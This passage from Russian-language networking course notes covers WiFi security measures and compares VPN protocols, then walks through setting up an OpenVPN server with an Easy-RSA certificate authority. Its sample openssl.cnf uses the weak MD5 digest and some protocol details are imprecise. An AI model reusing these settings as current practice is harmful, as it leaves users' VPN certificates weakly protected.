Не всё так однозначно. Трафик по кабелю внутри периметра сети обычно передается в открытом виде. В этом случае если незаконное подключение всё же состоялось, дела обстоят едва ли не хуже, чем в случае доступа по WiFi. Да, можно использовать VLAN, списки доступа ACL, но те же самые механизмы доступны и в беспроводных сетях. В организациях с высоким уровнем секретности применяются дополнительные меры защиты, например, VPN соединение от каждого рабочего места пользователя до центрального узла (сервера). Но в обычной жизни рядового офиса такие строгости встречаются далеко не так часто. Кстати, VPN внутри локальной сети можно применять и для беспроводных сетей.

Если в офисе есть переговорная, в которой проводятся и совещания с сотрудниками, и переговоры с партнерами, то необходимо каждый раз для каждого порта (розетки) прописывать на все устройства разрешения в port security. Представьте, пришли на переговоры важные люди, а их просят предъявить ноутбуки, чтобы сетевой администратор смог разрешить доступ с MAC адресов. В итоге каждый раз прописывать новый порт на коммутаторе будет весьма хлопотно. Отключить port security и ACL — это создать брешь в сети. Вот так и приходится жить между двух огней.

В то же время, данную проблему можно легко решить, если сделать гостевой WiFi.

*Сисадмин:*

Это не совсем так. В случае с коммутатором соединяются только два порта. В управляемых коммутаторах можно настроить зеркалирование порта, но для этого нужно получить доступ к управлению.

А беспроводные сети больше напоминают Ethernet-HUB, когда все устройства слушают один канал, трафик передается сразу по всем направлениям и сами клиенты сети решают, нужен им этот пакет или нет.

Поэтому основная и чуть ли не единственная эффективная защита WiFi — это шифрование трафика.

`Гик:`

Вот мы и выявили два основных «первородных греха» беспроводных соединений: возможность бесконтактного доступа (ради этого они и создавались) и принцип вещания, когда пакет передается в эфир, и устройства сами определяют, принимать пакет или нет.

### Как решается проблемы с безопасностью WiFI

Как известно, абсолютной защиты не бывает, как не бывает идеальных взломов. Основной принцип борьбы заключается в том, чтобы максимально затруднить проведение атаки, сделав результат нерентабельным по отношению к затраченным усилиям.

Поэтому даже когда применяются высоконадежные методы защиты, рекомендуется не игнорировать дополнительные меры (даже самые простые!) в качестве «защиты от дурака».

### Какими средствами мы располагаем?

Чтобы избежать путаницы, имеет смысл разделить все имеющиеся возможности и средства на две группы:

- технологии прямой защиты трафика, такие как шифрование или фильтрация по MAC адресу;
- технологии, изначально предназначенные для других целей, например, для повышения скорости, но при этом косвенным образом усложняющие жизнь злоумышленнику.

Ниже в этой статье мы рассмотрим методы защиты из первой группы. Постараемся уделить внимание и широко известным технологиям, и новинкам, которые появились в более позднее время.

### Скрытие имени WiFi сети

Нехитрый способ — убрать из всеобщего обозрения имя (SSID) своей WiFi сети. На самом деле функция Hide SSID ничего не прячет, а просто перестает открыто оповещать потенциальных клиентов о наличии сети с данным именем. По идее, теперь подключиться будет возможно, если знать имя сети, тип шифрования и пароль.

При скрытом SSID, в открытый доступ все равно транслируется другой идентификатор — BSSID (Basic Service Set Identifie). Поэтому сканеры сетей WiFi могут без особого труда определить нужные параметры. Однако необходимость приложить дополнительные усилия для обнаружения скрытых WiFi сетей в разы снижает активность любопытных глаз и шаловливых рук.

### Фильтрация по MAC

Ещё один «замочек от честных людей». Основан на применении списков доступа (Access Control List, ACL). Чем-то напоминает port security для проводных сетей. Но в беспроводных сетях для защиты от слежения за устройствами (чтобы злоумышленники не могли получить точные данные о реальных клиентах сети) зачастую используется подстановка MAC адресов. Поэтому данный способ годится только для внутреннего периметра сети и требует отключить функцию подстановки MAC на устройствах (как вариант — жестко прописать в настройках разрешенные MAC адрес и имя хоста). Для партнеров, клиентов и других посетителей офиса в этом случае рекомендуется сделать гостевую сеть WiFi. Впрочем, даже такой незатейливый метод ограничения доступа способен снизить число потенциальных нарушителей.

### Охота на Rogue AP

Rogue AP — это чужие точки доступа, которые не подконтрольны сетевому администратору. Например, это может быть точка доступа, которую использует злоумышленник для перехвата паролей и другой секретной информации, когда клиенты корпоративной сети по ошибке пытаются к ней подключиться и передать учетные данные.

Большинство точек доступа компании Zyxel имеют встроенную функцию сканирования радиоэфира с целью выявления посторонних точек.

### Дополнительные функции защиты

Если у злоумышленника не получается вплотную приблизиться к периметру сети, он может попытать использовать точки доступа из соседней сети, например, из другого офиса, в качестве плацдарма для атаки.

Если в качестве контроллера точек доступа используется межсетевой экран, то побороться с этим вполне возможно. Используя методы аутентификации WPA/WPA2-Enterprise, различные реализации Extensible Authentication Protocol (EAP) и встроенный межсетевой экран, маршрутизатор с контроллером беспроводной сети не только находит неавторизованные точки доступа, но и блокирует подозрительные действия в корпоративной сети, которые с большой долей вероятности несут в себе злой умысел.

### Использование ключей для доступа и шифрование трафика

Первоначально беспроводные сети работали в открытом режиме, потом появился WEP (Wired Equivalent Privacy, который впоследствии оказался весьма ненадежным), потом WPA, WPA2...

Популярный сейчас WPA2-PSK (pre-shared key) использует единственный ключ для всех клиентов сети. Помимо того, что при компрометации злоумышленник получает доступ ко всей сети, такой ключ достаточно сложно менять — нужно перенастроить все клиенты. Тем не менее из-за простоты реализации такой метод защиты применяется в домашних сетях и малом бизнесе.

До появления WiFi 6 c WPA3 самым защищенным считался WPA2 Enterprise с использованием индивидуальных динамических ключей, которые могут периодически обновляться без разрыва соединения. Для организации работы с такими ключами используется сервер авторизации (обычно RADIUS).

В Nebula для точек AX появилась функция Dynamic Personal Pre-Shared Key (DPPSK) — усовершенствованная аутентификация через облако, позволяющая использовать разные пароли (PSK) для каждого клиента. Можно указать срок действия для каждого пароля, что позволяет гибко управлять доступом к сети WiFi для большого числа устройств.

### Что нового в WiFi 6?

Точки доступа с поддержкой WiFi 6, и соответственно, более безопасных технологий WPA3 уже доступны для потребителя. Например, у Zyxel выпущена линейка точек доступа бизнес-класса Unified Pro.

Точки доступа Unified Pro Zyxel WAX510D, Unified Pro Zyxel WAX650S, Unified Pro Zyxel NWA110AX поддерживают стандарт 802.11ax (Wi-Fi 6) и управление из облака Nebula, что позволяет применять их для повышения уровня безопасности и скорости работы сети.

Ниже мы рассмотрим самые важные нововведения, которые появились в стандарте 802.11ax (WiFi 6).

### WPA3-Enterprise 192-bit mode

Улучшения в криптографии в первую очередь затронули именно WPA3-Enterprise — это действительно более стойкий и переработанный стандарт.

Для повышения уровня безопасности, WPA3-Enterprise использует:

    256-битный протокол Galois/Counter Mode — для шифрования,
    384-битный Hashed Message Authentication Mode — для создания и подтверждения ключей;
    алгоритмы Elliptic Curve Diffie-Hellman exchange, Elliptic Curve Digital Signature Algorithm — для аутентификации ключей.

В WPA3-Enterprise применяются следующие комбинации шифров, используемых для согласования настроек безопасности во время рукопожатия SSL / TLS:

    TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384, EC DH/DSA условно-безопасная NIST P-384;
    TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384, EC DH/DSA условно-безопасная NIST P-384, RSA от 3072 бит;
    TLS_DHE_RSA_WITH_AES_256_GCM_SHA384 — «облегченный» режим, без EC, RSA от 3072 бит, DH-группа 15.

### WPA3-Personal на смену WPA2-PSK

В качестве замены Pre-Shared Key, о проблемах которого уже сказано выше, в WPA3 используется метод аутентификации SAE, (стандарт IEEE 802.11-2016)

В основу работы положен принцип равноправности устройств. В отличие от обычного сценария, когда одно устройство объявляется как отправляющее запрос (клиент), а второе — устанавливающее право на подключение (точка доступа или маршрутизатор) и они обмениваются сообщениями по очереди, в случае с SAE каждая из сторон может послать запрос на соединение, после чего происходит отправка удостоверяющей информации.

При подключении и идентификации используется метод dragonfly handshake, с применением криптографической защиты для предотвращения кражи пароля.

SAE предоставляет защиту от атаки с переустановкой ключа (Key Reinstallation Attacks, KRACK ), а также от наиболее распространённых offline атак по словарю, когда компьютер перебирает множество паролей, чтобы подобрать подходящий для расшифровки информации, полученной во время PSK-соединений.

В SAE также добавлена дополнительная функция forward secrecy, повышающая уровень безопасности. Предположим, злоумышленник получил возможность сохранить зашифрованные данные, которые маршрутизатор транслирует в Интернет или локальную сеть, чтобы после подбора пароля расшифровать их. При переходе на SAE шифрующий пароль меняется при каждом новом соединении, поэтому злоумышленник получит только пароль от данных, переданных после вторжения.

### Enhanced Open — защита открытых сетей

Это отдельный протокол, разработанный для защиты соединений в открытой сети. Под открытыми сетями на данный момент понимаются сети, когда не требуется предварительная аутентификация, например по ключу (паролю), который в дальнейшем используются как ключ для шифрования.

В Enhanced Open применяется свой метод защиты от перехвата трафика — Opportunistic Wireless Encryption, OWE, описанный в стандарте Internet Engineering Task Force RFC 8110, чтобы защищаться от пассивного подслушивания. Также обеспечивается защита от метода unsophisticated packet injection, когда злоумышленник препятствует работе сети через передачу специальных пакетов данных.

Рекомендуемая сфера применения Enhanced Open — защита гостевых и публичных сетей от пассивного прослушивания.

[Как улучшить защиту периметра сети?](https://habr.com/ru/company/tssolution/blog/439028/)

http://yztm.ru/lekc2/l21/

https://defcon.ru/network-security/484/

# Модуль 6 Использование VPN в сети предприятия
 
Для начала — немного общих положений о VPN. Сценарии использования VPN могут быть разными, самые популярные их них:

- построение защищенного канала между двумя или более удаленными сегментами сети;
- подключение удаленного работника к корпоративной сети;
- виртуальное изменение местоположения с помощью услуг VPN Providers.

Для реализации этих сценариев существуют различные виды VPN протоколов — для связи, для шифрования трафика и другие. И уже на основании подходящего протокола можно "строить" свое решение. Два самых известных и широко используемых протокола — OpenVPN и IPSec, а сравнительно недавно появился WireGuard, вызвавший некоторые разногласия. Есть и другие альтернативы, уже устаревшие, но вполне способные решать определенные задачи.

Преимущество того или иного протокола VPN зависит от ряда факторов и условий использования:

Устройства — разные устройства поддерживают разные протоколы.

Сеть — если определенные сервисы не доступны в вашей локации, некоторые протоколы могут не подойти. Например, есть VPN Providers, которые работают в Китае, тогда как большинство существующих провайдеров заблокированы.

Производительность — некоторые протоколы обладают бОльшей производительностью, особенно на мобильных устройствах. Другие — более удобны для использования в больших сетях.

Модель угроз — некоторые протоколы менее безопасны, чем другие, поэтому и злоумышленники могут воздействовать на них по-разному.

Итак, с общей частью закончили, теперь переходим к подробному описанию и сравнению протоколов.

## Технология PPTP

Point-to-Point Tunneling Protocol (PPTP) — один из старейших VPN протоколов, используемых до сих пор, изначально был разработан компанией Microsoft.

PPTP использует два соединения — одно для управления, другое для инкапсуляции данных. Первое работает с использованием TCP, в котором порт сервера 1723. Второе работает с помощью протокола GRE, который является транспортным протоколом (то есть заменой TCP/UDP). Этот факт мешает клиентам, находящимся за NAT, установить подключение с сервером, так как для них установление подключения точка-точка не представляется возможным по умолчанию. Однако, поскольку в протоколе GRE, что использует PPTP (а именно enhanced GRE), есть заголовок Call ID, маршрутизаторы, выполняющие натирование, могут идентифицировать и сопоставить GRE трафик, идущий от клиента локальной сети к внешнему серверу и наоборот. Это дает возможность клиентам за NAT установить подключение point-to-point и пользоваться протоколом GRE. Данная технология называется VPN PassTrough. Она поддерживается большим количеством современного клиентского сетевого оборудования.

PPTP поддерживается нативно на всех версиях Windows и большинстве других операционных систем. Несмотря на относительно высокую скорость, PPTP не слишком надежен: после обрыва соединения он не восстанавливается так же быстро, как, например, OpenVPN.

В настоящее время PPTP по существу устарел и Microsoft советует пользоваться другими VPN решениями. Мы также не советуем выбирать PPTP, если для вас важна безопасность и конфиденциальность.

Конечно, если вы просто используете VPN для разблокировки контента, PPTP имеет место быть, однако, повторимся: есть более безопасные варианты, на которые стоит обратить внимание.

## Технология SSTP

Secure Socket Tunneling Protocol (SSTP) — проприетарный продукт от Microsoft. Как и PPTP, SSTP не очень широко используется в индустрии VPN, но, в отличие от PPTP, у него не диагностированы серьезные проблемы с безопасностью.

SSTP отправляет трафик по SSL через TCP-порт 443. Это делает его полезным для использования в ограниченных сетевых ситуациях, например, если вам нужен VPN для Китая. Несмотря на то, что SSTP также доступен и на Linux, RouterOS и SEIL, по большей части он все равно используется Windows-системами.

С точки зрения производительности SSTP работает быстро, стабильно и безопасно. К сожалению, очень немногие VPN провайдеры поддерживают SSTP.

SSTP может выручить, если блокируются другие VPN протоколы, но опять-таки OpenVPN будет лучшим выбором (если он доступен).

## Технология  IPsec

Internet Protocol Security (IPsec) — это набор протоколов для обеспечения защиты данных, передаваемых по IP-сети. В отличие от SSL, который работает на прикладном уровне, IPsec работает на сетевом уровне и может использоваться нативно со многими операционными системами, что позволяет использовать его без сторонних приложений (в отличие от OpenVPN).

IPsec стал очень популярным протоколом для использования в паре с L2TP или IKEv2, о чем мы поговорим ниже.

IPsec шифрует весь IP-пакет, используя:

- Authentication Header (AH), который ставит цифровую подпись на каждом пакете;
- Encapsulating Security Protocol (ESP), который обеспечивает конфиденциальность, целостность и аутентификацию пакета при передаче.

Обсуждение IPsec было бы неполным без упоминания утечки презентации Агентства Национальной Безопасности США, в которой обсуждаются протоколы IPsec (L2TP и IKE). Трудно прийти к однозначным выводам на основании расплывчатых ссылок в этой презентации, но если модель угроз для вашей системы включает целевое наблюдение со стороны любопытных зарубежных коллег, это повод рассмотреть другие варианты. И все же протоколы IPsec еще считаются безопасными, если они реализованы должным образом.

Теперь мы рассмотрим, как IPsec используется в паре с L2TP и IKEv2.

## Технология L2TP/IPsec

Layer 2 Tunneling Protocol (L2TP) был впервые предложен в 1999 году в качестве обновления протоколов L2F (Cisco) и PPTP (Microsoft). Поскольку L2TP сам по себе не обеспечивает шифрование или аутентификацию, часто с ним используется IPsec. L2TP в паре с IPsec поддерживается многими операционными системами, стандартизирован в RFC 3193.

L2TP/IPsec считается безопасным и не имеет серьезных выявленных проблем (гораздо безопаснее, чем PPTP). L2TP/IPsec может использовать шифрование 3DES или AES, хотя, учитывая, что 3DES в настоящее время считается слабым шифром, он используется редко.

У протокола L2TP иногда возникают проблемы из-за использования по умолчанию UDP-порта 500, который, как известно, блокируется некоторыми брандмауэрами.

Протокол L2TP/IPsec позволяет обеспечить высокую безопасность передаваемых данных, прост в настройке и поддерживается всеми современными операционными системами. Однако L2TP/IPsec инкапсулирует передаваемые данные дважды, что делает его менее эффективным и более медленным, чем другие VPN-протоколы.

## Технология IKEv2/IPsec

Internet Key Exchange version 2 (IKEv2) является протоколом IPsec, используемым для выполнения взаимной аутентификации, создания и обслуживания Security Associations (SA), стандартизован в RFC 7296. Так же защищен IPsec, как и L2TP, что может говорить об их одинаковом уровне безопасности. Хотя IKEv2 был разработан Microsoft совместно с Cisco, существуют реализации протокола с открытым исходным кодом (например, OpenIKEv2, Openswan и strongSwan).

Благодаря поддержке Mobility and Multi-homing Protocol (MOBIKE) IKEv2 очень устойчив к смене сетей. Это делает IKEv2 отличным выбором для пользователей смартфонов, которые регулярно переключаются между домашним Wi-Fi и мобильным соединением или перемещаются между точками доступа.

IKEv2/IPsec может использовать ряд различных криптографических алгоритмов, включая AES, Blowfish и Camellia, в том числе с 256-битными ключами.

IKEv2 поддерживает Perfect Forward Secrecy.

Во многих случаях IKEv2 быстрее OpenVPN, так как он менее ресурсоемкий. С точки зрения производительности IKEv2 может быть лучшим вариантом для мобильных пользователей, потому как он хорошо переустанавливает соединения. IKEv2 нативно поддерживается на Windows 7+, Mac OS 10.11+, iOS, а также на некоторых Android-устройствах.

## Технология OpenVPN

OpenVPN — это универсальный протокол VPN с открытым исходным кодом, разработанный компанией OpenVPN Technologies. На сегодняшний день это, пожалуй, самый популярный протокол VPN. Будучи открытым стандартом, он прошел не одну независимую экспертизу безопасности.

В большинстве ситуаций, когда нужно подключение через VPN, скорее всего подойдет OpenVPN. Он стабилен и предлагает хорошую скорость передачи данных. OpenVPN использует стандартные протоколы TCP и UDP и это позволяет ему стать альтернативой IPsec тогда, когда провайдер блокирует некоторые протоколы VPN.

Для работы OpenVPN нужно специальное клиентское программное обеспечение, а не то, которое работает из коробки. Большинство VPN-сервисов создают свои приложения для работы с OpenVPN, которые можно использовать в разных операционных системах и устройствах. Протокол может работать на любом из портов TCP и UPD и может использоваться на всех основных платформах через сторонние клиенты: Windows, Mac OS, Linux, Apple iOS, Android.

Но если он не подходит для вашей ситуации, стоит обратить внимание на альтернативные решения.

## Технология WireGuard

Самый новый и неизведанный протокол VPN — WireGuard. Позиционируется разработчиками как замена IPsec и OpenVPN для большинства случаев их использования, будучи при этом более безопасным, более производительным и простым в использовании.

Все IP-пакеты, приходящие на WireGuard интерфейс, инкапсулируются в UDP и безопасно доставляются другим пирам. WireGuard использует современную криптографию:

 - Curve25519 для обмена ключами,
 - ChaCha20 для шифрования,
 - Poly1305 для аутентификации данных,
 - SipHash для ключей хеш-таблицы,
 - BLAKE2 для хеширования.

Код WireGuard выглядит куда скромнее и проще, чем код OpenVPN, в результате чего его проще исследовать на уязвимости (4 тысячи строк кода против нескольких сотен тысяч). Также многие отмечают, что его гораздо легче развернуть и настроить.

Результаты тестов производительности можно увидеть на официальном сайте (как не сложно догадаться, они хороши). Стоит отметить, что лучшие результаты WireGuard покажет на Linux системах, т.к. там он реализован в виде модуля ядра.

Совсем недавно был представлен WireGuard 1.0.0, который отметил собой поставку компонентов WireGuard в основном составе ядра Linux 5.6. Включенный в состав ядра Linux код прошел дополнительный аудит безопасности, выполненный независимой фирмой, который не выявил каких-либо проблем. Для многих это отличные новости, но сможет ли WireGuard стать достойной заменой IPsec и OpenVPN покажет время и независимые исследования безопасности.

### Преимущества использования VPN-соединения?

- Анонимность
- Безопасность
- Доступ к службам блокировки геолокации (Netflix, Hulu и т. Д.)

Как я уже говорил, первая и главная цель VPN сегодня - это анонимность. Создавая безопасный туннель от вашего устройства до их серверов и шифруя данные, которые проходят через этот туннель, VPN эффективно защищает всю вашу активность данных.

### Анонимность

*Миф*

Анонимность означает, что любой, кто пытается узнать, что вы делаете в Интернете, такие как посещаемые вами сайты и т. д., не сможет многое узнать. 

*Реальность* 

Крупные провайдеры контента, такие как Google, Facebook, Yandex и т.п. могут использовать альтернативные способы отождествления 
сетевой активности с персоной. Варианты:

1. ПО для реализации VPN может содержать "закладки". Рядовой пользователь не может это никак проверить, доверяя источнику.

2. Данные в любом случае расшифрованы на обоих концах туннеля, поэтому есть возможность записи активности пользователя. 
В сайт (или иной софт) может быть встроен логгер активности (google-аналитика и т.п.), который фиксирует действия 
пользователя. Записываются движения мыши, нажатия клавиш и работа тачскрина. Для каждого пользователя 
имеется уникальный цифровой отпечаток его действий. Это характерные опечатки, статистика набираемого текста,
определенные словосочетания, характерные движения мыши и т.п. При наличии достаточного количества записанных фактов
можно произвести статобработку и получить кластера признаков, специфичных для каждого пользователя.
База аккаунтов, такая как у google позволяет соотнести эти кластера с реальными персонажами.

3. Если данные обрабатываются на виртуальном хосте в каком-либо датацентре, не подконтрольном компании,
то память VDS доступна для анализа администрацией датацентра.

https://www.giac.org/paper/gcih/337/microsoft-pptp-vpn-vulnerabilities-exploits-action/103605

https://insinuator.net/2013/08/vulnerabilities-attack-vectors-of-vpns-pt-1/

https://www.cvedetails.com/vulnerability-list/vendor_id-3278/Openvpn.html

Протокол Ди́ффи — Хе́ллмана (англ. Diffie–Hellman, DH) — криптографический протокол, позволяющий двум и более сторонам получить общий секретный ключ, используя незащищенный от прослушивания канал связи. Полученный ключ используется для шифрования дальнейшего обмена с помощью алгоритмов симметричного шифрования.

Схема открытого распределения ключей, предложенная Диффи и Хеллманом, произвела настоящую революцию в мире шифрования, так как снимала основную проблему классической криптографии — проблему распределения ключей.

В чистом виде алгоритм Диффи — Хеллмана уязвим для модификации данных в канале связи, в том числе для атаки «Man-in-the-middle (человек посередине)», поэтому схемы с его использованием применяют дополнительные методы односторонней или двусторонней аутентификации. 

Если вы впервые настраиваете сеть VPN, лучше всего экспериментировать на виртуальных машинах VDS. Это могут быть VDS, созданные локально на вашем компьютере или на сервере в вашей сети, либо арендованные у провайдера. Перед арендой VDS поинтересуйтесь, поддерживается ли драйвер TUN/TAP. Некоторые провайдеры требуют дополнительной оплаты для подключения TUN/TAP.

Здесь изображены три узла (хоста), для каждого из которых потребуется отдельный VDS:

- сервер OpenVPN (vpnsrv, 192.168.0.54);
- клиент OpenVPN (vpnclient, 192.168.0.55);
- удостоверяющий центр CA (ca, 192.168.0.53)

Хосты клиента и сервера VPN соединены обычным, небезопасным каналом. В случае макета это может быть локальная сеть, в реальной жизни — канал сети Интернет. ПО OpenVPN создает в этой сети канал, обозначенный на рис. 1 красным цветом, внутри которого устанавливается безопасный шифрованный канал (обозначен зеленым цветом).

В макете хост удостоверяющего центра CA можно подключить к вашей локальной сети. Для реальной работы хост CA нужно отсоединить от сети, а обмен сертификатами и ключами осуществлять с помощью, например, USB флэш-диска.

Если к безопасности предъявляются повышенные требования, хост CA необходимо поместить в охраняемое помещение — расположенная на этой машине информация позволяет создавать ключи доступа к вашей сети VPN.

По возможности на узлах сети OpenVPN используйте новые версии ОС. Перед тем как приступить к работе с OpenVPN, обновите пакеты Linux:

	$ sudo apt update && yes | sudo apt upgrade

На всех узлах настройте обновление и синхронизацию времени.

	# apt-get install ntpdate
	# apt-get install -y ntp
	# /etc/init.d/ntp stop
	# ntpdate pool.ntp.org
	# /etc/init.d/ntp start

Синхронизация времени необходима, т.к. сертификаты имеют период действия. Если часы, например, на хосте удостоверяющего центра CA и сервера OpenVPN не синхронны, может получиться так, что выданный удостоверяющим центром сертификат не будет действителен на узлах сети OpenVPN из-за ограничений по дате или времени.

Дальнейшие работы мы начнем с подготовки хоста удостоверяющего центра CA. Затем установим хосты сервера и клиента OpenVPN.

## Создание удостоверяющего центра CA

Как мы уже говорили, задача удостоверяющего центра CA — выдача подписанных сертификатов для сервера и клиентов OpenVPN.

Чтобы получить сертификат, сервер или клиент на своем хосте генерирует файл запроса на сертификат. Этот файл запроса передается на хост CA, который создает сертификат и подписывает его. Далее подписанный сертификат передается на запросивший хост.

Одновременно с запросом сертификата создается приватный ключ. Приватные ключи создаются для всех узлов сети OpenVPN: для удостоверяющего центра CA, для сервера и всех клиентов OpenVPN.

Для безопасности файлы ключей никогда не должны покидать узлы, где они были созданы. Обмениваться можно только запросами на сертификаты и сертификатами, приватными ключами обмениваться нельзя и незачем.

Сервер OpenVPN создает свой приватный ключ и файл запроса на получение сертификата. Файл запроса передается в удостоверяющий центр, например, на USB флеш-диске.

Удостоверяющий центр на основе запроса создает подписанный сертификат, который затем требуется перенести на сервер OpenVPN, также на USB флэш-диске.

Если к безопасности не предъявляется особых требований или вы только изучаете OpenVPN, можно подключить машину удостоверяющего центра к сети и передавать запросы и сертификаты, например, с помощью утилит SFTP или SCP. Можно даже совместить функции CA и, например, сервера OpenVPN в одном хосте.

Аналогичным образом необходимо получить сертификаты для всех клиентских узлов.

## Установка утилиты Easy-RSA

Все операции по созданию ключей и сертификатов можно выполнить с помощью утилиты openssl. Однако проще воспользоваться специально созданной для этого программой Easy-RSA, которая использует openssl для выполнения действий с ключами и сертификатами.

Ранее утилита Easy-RSA поставлялась вместе с OpenVPN, но теперь это отдельный проект.

Все операции с удостоверяющим центром и сертификатами можно (и нужно) проводить от имени непривилегированного пользователя.

Создайте пользователя с именем, например, ca и перейдите в его домашний каталог:

	# adduser ca
	# su ca
	$ cd

Загрузите дистрибутив программы утилитой wget.

	$ wget https://github.com/OpenVPN/easy-rsa/archive/master.zip

После загрузки распакуйте архив master.zip:

	$ unzip master.zip

В таблице перечислены файлы и каталоги, входящие в дистрибутив Easy-RSA.

## Создание инфраструктуры публичных ключей PKI

На первом шаге создайте инфраструктуру публичных ключей (Public Key Infrastructure, PKI):

	$ cd /home/ca/easy-rsa-master/easyrsa3
	$ ./easyrsa init-pki

Вы увидите сообщение:

	init-pki complete; you may now create a CA or requests.
	Your newly created PKI dir is: /home/ca/easy-rsa-master/easyrsa3/pki

В результате выполнения команды init-pki был создан каталог /home/ca/easy-rsa-master/easyrsa3/pki, где и находится инфраструктура публичных ключей PKI.

На втором шаге с помощью команды build-ca создайте удостоверяющий центр CA:

	$ ./easyrsa build-ca

В ответ на эту команду вам будет предложено ввести пароль и так называемое имя Common Name:

	Generating a 2048 bit RSA private key
	.....+++
	................................................................+++
	writing new private key to '/home/ca/easy-rsa-master/easyrsa3/pki/private/ca.key'
	Enter PEM pass phrase:********
	Verifying - Enter PEM pass phrase:********
	----You are about to be asked to enter information that will be incorporated
	into your certificate request.
	What you are about to enter is what is called a Distinguished Name or a DN.
	There are quite a few fields but you can leave some blank
	For some fields there will be a default value, 
	If you enter '.', the field will be left blank.
	-----
	Common Name (eg: your user, host, or server name) [Easy-RSA CA]:ca.mydomain.ru>
	CA creation complete and you may now import and sign cert requests.
	Your new CA certificate file for publishing is at:
	/home/ca/easy-rsa-master/easyrsa3/pki/ca.crt

Пароль будет защищать приватный ключ удостоверяющего центра, созданный в формате PEM (Privacy Enhancement for Internet Electronic Mail). Этот пароль потребуется каждый раз, когда вы будете подписывать в удостоверяющем центре сертификаты для серверов и клиентов OpenVPN.

Чтобы избавиться от необходимости ввода пароля, можно при запуске команды build-ca задать опцию nopass:

	$ ./easyrsa build-ca nopass

Учтите, что злоумышленник сможет легко воспользоваться украденным ключом, созданным без пароля.

В качестве Common Name задайте, например, доменное имя, выделенное для удостоверяющего центра CA, имя пользователя или хоста сервера CA.

Для удостоверяющего центра команда build-ca создаст два файла:

	/home/ca/easy-rsa-master/easyrsa3/pki/private/ca.key
	/home/ca/easy-rsa-master/easyrsa3/pki/ca.crt

Файл ca.key представляет собой приватный ключ центра CA, он секретный, и его нельзя переносить на другие узлы вашей сети.

Файл сертификата удостоверяющего центра ca.crt, напротив, открытый, и он будет нужен на узлах серверов и клиентов OpenVPN. Запишите файл ca.crt на USB флэш-диск, чтобы перенести на другие узлы.

Смонтировать USB флэш-диск, можно, например, так:

	# fdisk -l
	# mkdir /mnt/flash
	# mount -t vfat /dev/sdb1 /mnt/flash

Здесь мы предполагаем, что USB флэш-диск стал устройством /dev/sdb1, а его файловая система — FAT32.

Копируем файл сертификата CA:

	# cp /home/ca/easy-rsa-master/easyrsa3/pki/ca.crt /mnt/flash/ca.crt

Для работы с USB флэш-диском с файловой системой NTFS сначала установите пакет ntfs-3g:

	# aptitude install ntfs-3g

Смонтируйте диск следующим образом:

	# mount -t ntfs-3g /dev/sdb1 /mnt/flash

После окончания копирования размонтируйте USB диск:

	# umount /mnt/flash

## Создание списка отзывов сертификатов

Если сотрудник уволился, необходимо заблокировать его доступ в сеть VPN компании. Специально для этой цели в OpenVPN предусмотрен список отзыва сертификатов CRL. Создайте его такой командой:

	$ cd /home/ca/easy-rsa-master/easyrsa3
	$ ./easyrsa gen-crl

У вас будет запрошен пароль доступа к приватному ключу ca.key удостоверяющего центра. Список отзыва сертификатов будет создан в файле /home/ca/easy-rsa-master/easyrsa3/pki/crl.pem.

Скопируйте этот файл на USB флэш-диск:

	# cp /home/ca/easy-rsa-master/easyrsa3/pki/crl.pem /mnt/flash

Если нужно заблокировать выданный ранее сертификат, воспользуйтесь следующей командой:

$ ./easyrsa revoke developer5

Здесь мы отозвали сертификат для клиента developer5. Далее нужно скопировать новый файл CRL на сервер OpenVPN и перезапустить демон OpenVPN.

## Созданные файлы и каталоги PKI

В таблице приведено краткое описание некоторых файлов и каталогов PKI, созданных в результате наших действий.

## Создание сервера OpenVPN

Процесс создания сервера OpenVPN включает в себя установку пакета openvpn, подготовку файлов конфигурации, ключей и сертификатов.

Установите пакет сервера OpenVPN следующим образом:

	# apt-get install openvpn

Подготовка файлов конфигурации

Файлы конфигурации, сертификаты и ключи нужно поместить в каталог /etc/openvpn, который будет создан автоматически в процессе установки пакета openvpn.

Прежде всего, подготовим файлы конфигурации openssl.cnf и server.conf. Первый из этих файлов определяет конфигурацию OpenSSL, второй — конфигурацию сервера OpenVPN.

В комплекте с утилитой Easy-RSA поставляется пример файла конфигурации OpenSSL (предполагается, что мы установили утилиту в домашний каталог пользователя ca):

	/home/ca/easy-rsa-master/easyrsa3/openssl-1.0.cnf

Мы, однако, рекомендуем использовать для начала упрощенную версию этого файла из нашей статьи.

В файле `openssl.cnf` указан абсолютный путь к каталогу с ключами и сертификатами, который вы только что создали.

Содержимое файла openssl.cnf

	[ ca ]
	default_ca = CA_default
	[ CA_default ]
	dir = /etc/openvpn
	crl_dir = $dir
	database = $dir/index.txt
	new_certs_dir = $dir
	certificate = $dir/ca.crt
	serial = $dir
	crl = $dir/crl.pem
	private_key = $dir/server.key
	RANDFILE = $dir/.rand
	default_days = 3650
	default_crl_days = 365
	default_md = md5
	unique_subject = yes
	policy = policy_any
	x509_extensions = user_extensions
	[ policy_any ]
	organizationName = match
	organizationalUnitName = optional
	commonName = supplied
	[ req ]
	default_bits = 2048
	default_keyfile = privkey.pem
	distinguished_name = req_distinguished_name
	x509_extensions = CA_extensions
	[ req_distinguished_name ]
	organizationName = Organization Name (must match CA)
	organizationName_default = Company
	organizationalUnitName = Location Name
	commonName = Common User or Org Name
	commonName_max = 64
	[ user_extensions ]
	basicConstraints = CA:FALSE
	[ CA_extensions ]
	basicConstraints = CA:TRUE
	default_days = 3650
	[ server ]
	basicConstraints = CA:FALSE
	nsCertType = server

Пример файла openvpn.conf конфигурации сервера OpenVPN есть на сайте проекта по адресу openvpn.net/index.php/open-source/documentation/howto.html#server. Мы предлагаем начать с сокращенной версии этого файла из нашей статьи.

Содержимое файла server.conf
	port 1194
	proto udp
	dev tun
	user openvpn
	group openvpn
	cd /etc/openvpn
	persist-key
	persist-tun
	tls-server
	tls-timeout 120
	dh /etc/openvpn/dh.pem
	ca /etc/openvpn/ca.crt
	cert /etc/openvpn/vpn-server.crt
	key /etc/openvpn/server.key
	crl-verify /etc/openvpn/crl.pem
	tls-auth /etc/openvpn/ta.key 0
	server 10.15.0.0 255.255.255.0
	client-config-dir /etc/openvpn/ccd
	client-to-client
	topology subnet
	max-clients 5
	push "dhcp-option DNS 10.15.0.1"
	route 10.15.0.0 255.255.255.0
	comp-lzo
	keepalive 10 120
	status /var/log/openvpn/openvpn-status.log 1
	status-version 3
	log-append /var/log/openvpn/openvpn-server.log
	verb 3
	mute 20

